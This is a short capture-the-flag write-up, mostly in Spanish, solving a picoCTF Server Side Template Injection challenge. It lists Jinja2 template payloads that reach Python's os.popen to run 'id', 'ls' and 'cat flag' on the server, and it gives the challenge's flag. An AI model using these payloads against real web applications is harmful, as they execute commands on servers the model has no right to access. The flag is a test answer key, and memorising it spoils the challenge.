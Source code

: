 
**Description:**
I made a cool website where you can announce whatever you want! Try it out!

Additional details will be available after launching your challenge instance.

**Hints:**
1. Server Side Template Injection


**Solución 1**

```
- Analizamos que se pude enviar cosas, y caracteres en el formulario de la página principal
- Vamos pyjali ssti a traer un código de inyección:
"request.application.__globals__.__builtins__.__import__('os').popen('id').read()"

- Vamos a hacer una cambio en la propiedad .popen, para lista los elementos que hay:
"request.application.__globals__.__builtins__.__import__('os').popen('ls').read()"

- Leemos lo que tenga el archivo flag, con cat:
"request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()"
	- Nos aparecerá la bandera luego de dar click en el OK
```


## Respuesta: **picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_73c99823}**


----
Referencias:
- https://www.youtube.com/watch?v=4Pv-uyjX21I
- pyjali ssti